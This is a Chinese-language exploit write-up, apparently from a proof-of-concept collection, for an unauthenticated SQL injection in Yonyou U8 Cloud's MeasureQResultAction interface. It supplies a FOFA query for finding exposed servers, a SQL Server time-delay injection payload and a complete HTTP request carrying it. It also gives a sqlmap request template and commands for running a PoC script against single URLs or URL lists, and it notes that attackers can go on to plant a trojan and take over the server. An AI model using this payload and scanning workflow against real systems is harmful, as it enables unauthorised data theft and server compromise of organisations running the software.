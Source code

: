 ## Y30-2用友-U8Cloud-SQL

漏洞描述：

用友U8 Cloud nc.ui.iufo.query.measurequery.MeasureQResultAction 接口处存在SQL注入漏洞，未经身份验证的远程攻击者除了可以利用 SQL 注入漏洞获取数据库中的信息之外，甚至在高权限的情况可向服务器中写入木马，进一步获取服务器系统权限。
fofa语法：

title=="U8C"

payload:

```
%27);WAITFOR+DELAY+%270:0:5%27--

语法为SQL server延时注入语句
```

```
GET /service/~iufo/com.ufida.web.action.ActionServlet?action=nc.ui.iufo.query.measurequery.MeasureQResultAction&method=execute&selectQueryCondition=1%27);WAITFOR+DELAY+%270:0:5%27-- HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Connection: close
```

![image-20240902193829541](C:\Users\yun\AppData\Roaming\Typora\typora-user-images\image-20240902193829541.png)

sqlmap:

```
GET /service/~iufo/com.ufida.web.action.ActionServlet?action=nc.ui.iufo.query.measurequery.MeasureQResultAction&method=execute&selectQueryCondition=1* HTTP/1.1
Host: *
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: *
x-forwarded-for: 127.0.0.1
Connection: close
```

![image-20240905192249321](C:\Users\yun\AppData\Roaming\Typora\typora-user-images\image-20240905192249321.png)

POC使用方式：

```
python3 1-U8Cloud-SQL.py -u url
python3 1-U8Cloud-SQL.py -f urls.txt
```

